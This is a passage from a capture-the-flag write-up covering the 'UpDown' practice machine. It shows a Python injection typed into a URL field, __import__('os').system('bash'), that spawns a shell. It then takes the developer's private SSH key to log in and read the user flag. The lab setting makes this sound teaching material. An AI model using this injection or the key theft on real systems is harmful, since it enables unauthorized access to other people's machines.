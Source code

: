     Enter URL here:__import__('os').system('bash')
    developer@updown:/home/developer/dev$ id
    uid=1002(developer) gid=33(www-data) groups=33(www-data)



It returns a shell as developer! To be more specific, the process is
running under the user developer, but the group is still www-data. This
means I can't read `user.txt`, as it's owned by root, and in the
developer group:



    developer@updown:/home/developer$ ls -l
    total 8
    drwxr-x--- 2 developer www-data  4096 Jun 22  2022 dev
    -rw-r----- 1 root      developer   33 Jan 14 21:08 user.txt



### SSH

Fortunately, in developer's `.ssh` directory, there's an RSA key-pair:



    developer@updown:/home/developer/.ssh$ ls
    authorized_keys  id_rsa  id_rsa.pub



The public key matches the `authorized_keys` file:



    developer@updown:/home/developer/.ssh$ md5sum authorized_keys  id_rsa.pub 
    4ecdaf650dc5b78cb29737291233fe99  authorized_keys
    4ecdaf650dc5b78cb29737291233fe99  id_rsa.pub



So the private key should be good enough to get a shell as developer,
and it does:



    oxdf@hacky$ vim ~/keys/updown-developer
    oxdf@hacky$ chmod 600 ~/keys/updown-developer
    oxdf@hacky$ ssh -i ~/keys/updown-developer developer@siteisup.htb
    ...[snip]...
    developer@updown:~$



And the user flag:



    developer@updown:~$ cat user.txt
    2e025639************************



## Shell as root
